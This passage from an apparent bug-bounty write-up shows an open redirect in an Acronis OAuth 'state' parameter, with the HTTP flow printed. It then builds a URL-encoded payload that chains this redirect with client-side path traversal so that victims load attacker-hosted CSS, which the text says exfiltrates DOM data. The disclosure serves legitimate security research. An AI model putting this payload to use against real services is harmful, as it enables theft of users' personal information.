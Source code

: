 While looking at the HTTP requests to see if I could find any **Open Redirect**  and demonstrate the impact I notice one interesting API endpoint:

`https://mc-beta-cloud.acronis.com/api/2/idp/authorize/?client_id={CLIENT_ID}
&redirect_uri=%2Fhci%2Fcallback
&response_type=code
&scope=openid
&state=http://localhost
&nonce=bhgjuvrrvpwauibleqhvfqat`

Notice the **state** GET parameter is controllable by the user so we can specify any external domain where to redirect the user and it's valid for any account. The HTTP flow will looks like this:

<div class="aside">
  <pre class="prettyprint prettyprinted">
  GET /api/2/idp/authorize/?client_id={CLIENT-ID}&redirect_uri=%2Fhci%2Fcallback&response_type=code&scope=openid&state=http://localhost&nonce=bhgjuvrrvpwauibleqhvfqat HTTP/1.1
  Host: ...

  HTTP/1.1 302 Found
  Location: /hci/callback=code={CODE}&state=http://localhost
  -------------------------------------------------------------
  GET /hci/callback=code={CODE}&state=http://localhost HTTP/1.1
  Host: ...

  HTTP/1.1 302 Found
  Location: http://localhost

  Open Redirect confirmed
  </pre>
</div>


<h2 class="introfont" style="font-size: 2em!important;">Exploit</h2>

Once we confirmed the `Client Side Path Traversal and Open Redirect` let's put it all together to make a working `exploit`.

We know that when we load any CSS file it follows all the redirects specified in the HTTP header Location, so, if we are able to **overwrite the relative path to the vulnerable Open Redirect endpoint, and specify the redirect to the CSS file of our server, we will make the user to load the CSS file of our domain**, leading to exfiltrate user personal information located in the DOM by using CSS properties.

By putting together these two tricks let's say the `color_sheme` GET parameter have the following value:

<div class="aside">
  <pre class="prettyprint prettyprinted" style="color:#c7254e">
    %2F..%2F..%2F..%2Fapi%2F2%2Fidp%2Fauthorize%2F%3Fclient_id%3D
    fb2bf44e-ac14-444a-b2a9-e5e81fe73b80%26redirect_uri%3D
    %252Fhci%252Fcallback%26response_type%3Dcode%26
    scope%3Dopenid%26state%3Dhttp%253A%252F%252Flocalhost%252Fcss%252Fcore.css%26
    nonce%3Dbhgjuvrrvpwauibleqhvfqat
  </pre>
</div>
In order to work the exploit the parameters needs to be URL encoded. Let's decode the parameter to a better understanding:
